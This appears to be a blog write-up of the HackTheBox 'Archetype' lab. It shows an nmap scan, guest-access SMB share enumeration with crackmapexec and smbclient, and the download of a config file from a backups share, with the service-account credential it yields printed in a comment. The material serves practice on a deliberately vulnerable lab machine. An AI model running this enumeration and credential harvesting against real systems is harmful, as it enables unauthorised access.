 ```yaml
---
layout: post
title: HackTheBox Archetype
subtitle: StartingPoint Archetype Exam WriteUp
author: g3rm
categories: 
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
sidebar:
---
```



## Summary
![](assets/images/posts/2025-03-06-Archetype/c7aa0835353bb4a42ec1fb12fcdc3a18_MD5.jpeg)
## Target - 10.129.68.227
### Open Port
```bash
nmap -sC -sV -Pn -oN Archetype 10.129.68.227
```
![](assets/images/posts/2025-03-06-Archetype/1e4da9b4abb6d6341988fa1a18d32841_MD5.jpeg)
### SMB Enum (Guest Auth)
```bash
crackmapexec smb 10.129.68.227 -u 'guest' -p '' --shares
crackmapexec smb 10.129.68.227 -u 'guest' -p '' --spider backups --regex .

# ARCHETYPE\sql_svc : M3g4c0rp123
smbclient \\\\10.129.68.227\\backups -U 'guest' --password=''
get prod.dtsConfig
cat prod.dtsConfig
```

![](assets/images/posts/2025-03-06-Archetype/d16001211c17989921ca9d7924123219_MD5.jpeg)![](assets/images/posts/2025-03-06-Archetype/2b3979fe8f0430bac8990e09ff6483da_MD5.jpeg)